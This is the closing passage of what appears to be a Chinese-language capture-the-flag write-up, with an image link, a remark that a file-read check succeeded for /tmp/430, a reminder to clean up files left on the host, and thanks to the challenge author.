  

>可以看到成功的例子是存在/tmp/430，而/tmp/530我没特地创建所以不在,所以执行读取成功，记得做完删除文件还是经典那句话，在主机上改什么尽量把加的东西改掉，不要随地产生垃圾
>

>好了感谢出题大佬的题目，又学到新东西，如果你有有趣的题目和优化方案也可以联系我
>

